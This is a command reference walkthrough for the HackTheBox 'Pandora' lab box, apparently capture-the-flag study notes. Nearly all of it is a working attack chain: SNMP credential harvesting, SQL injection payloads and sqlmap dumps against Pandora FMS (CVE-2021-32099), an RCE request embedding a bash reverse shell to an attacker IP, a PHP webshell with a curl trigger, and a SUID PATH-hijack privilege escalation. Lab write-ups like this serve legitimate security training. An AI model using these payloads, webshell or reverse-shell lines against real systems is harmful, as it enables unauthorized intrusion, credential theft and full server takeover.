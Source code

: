 **HTB: Pandora - Command Reference**

---

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

### 🧰 Recon Phase

**Nmap TCP Full Range Scan:**
```bash
nmap -p- --min-rate 10000 10.10.11.136
```

**Nmap Service Version Scan:**
```bash
nmap -p 22,80 -sCV 10.10.11.136
```

**UDP Scan for SNMP:**
```bash
sudo nmap -sU -top-ports=100 10.10.11.136
```

**Feroxbuster Directory Fuzzing:**
```bash
feroxbuster -u http://10.10.11.136
```

**[WFuzz](HTTP) Subdomain Discovery:**
```bash
wfuzz -u http://panda.htb -H "Host: FUZZ.panda.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  --hh 33560
```

**[SNMP](SNMP) Enumeration:**
```bash
snmpwalk -v 2c -c public 10.10.11.136 | tee snmp-full
snmpbulkwalk -Cr1000 -c public -v2c 10.10.11.136 > snmp-full-bulk
```

**Custom Process Parsing (Python):**
```python
# snmp_processlist.py (dataclass and regex-based parser)
```

---

### 🚪 Initial Access

**Extracted from SNMP:**
```
Username: daniel
Password: HotelBabylon23
```

**[SSH](SSH) into Box:**
```bash
sshpass -p 'HotelBabylon23' ssh daniel@10.10.11.136
```

**Port Forward Pandora Console:**
```bash
ssh -L 9001:localhost:80 daniel@10.10.11.136
```

---

### 🩷 SQL Injection (CVE-2021-32099)

**Check SQLi Error:**
```
http://pandora.panda.htb:9001/pandora_console/include/chart_generator.php?session_id='
```

**Union Test (3 Columns):**
```
?session_id=' union select 1,2,3-- -
```

**SQLMap Discovery:**
```bash
sqlmap -u 'http://pandora.panda.htb:9001/pandora_console/include/chart_generator.php?session_id=1'
```

**Dump Pandora Sessions:**
```bash
sqlmap -D pandora -T tsessions_php --dump --where "data<>''"
```

**Replay Session (Replace Cookie):**
```http
Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq
```

---

### 🔨 Remote Code Execution (RCE #1: CVE-2020-13851)

**Exploit via Ajax:**
```http
POST /pandora_console/ajax.php
Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq

page=include/ajax/events&perform_event_response=10000000&target=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"&response_id=1
```

**Listener:**
```bash
nc -nvlp 443
```

**Shell Upgrade:**
```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset
```

---

### 🔨 Remote Code Execution (RCE #2: Admin Upload via SQLi)

**Crafted Payload for Admin Session:**
```url
http://127.0.0.1:9001/pandora_console/include/chart_generator.php?session_id=' union select '1','2','id_usuario|s:5:"admin";' -- a
```

**Upload Webshell (PHP):**
```php
<?php system($_REQUEST['cmd']); ?>
```

**Execute Reverse Shell via Webshell:**
```bash
curl 'http://pandora.panda.htb:9001/pandora_console/images/0xdf.php?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"'
```

---

### 💼 Privilege Escalation to root

**SUID Binary Discovered:**
```bash
find / -perm -4000 -ls 2>/dev/null | grep pandora_backup
```

**Drop SSH Key to Ensure Clean Env:**
```bash
echo "<pub_key>" > /home/matt/.ssh/authorized_keys
```

**Confirm pandora_backup Vulnerability:**
```bash
ltrace pandora_backup
```

**Hijack tar via PATH:**
```bash
cd /dev/shm
export PATH=/dev/shm:$PATH

cat > tar << 'EOF'
#!/bin/bash
bash
EOF

chmod +x tar
pandora_backup
```

**Grab root flag:**
```bash
cat /root/root.txt
```

---

### 🕵️‍♂️ Beyond Root (Apache mpm-itk Sandbox Bypass)

- Apache site runs as `matt` via `AssignUserID` (from `mpm-itk` module).
- This breaks all SUID functionality under Apache execution tree.
- Switching to SSH avoids `mpm-itk` sandbox, allowing SUID execution.

**References:**
- https://mpm-itk.sesse.net/
- https://www.cpanel.net/support/
- https://serverfault.com/questions/1013897/setuid-scripts-fail-under-apache-mpm-itk

---

**Status:**
- User: `daniel` via SNMP creds
- Lateral: `matt` via Pandora FMS SQLi
- Root: `pandora_backup` path hijack

Great practice for SNMP enumeration, SQLi chaining, Apache mod understanding, and privilege escalation via PATH hijack ✨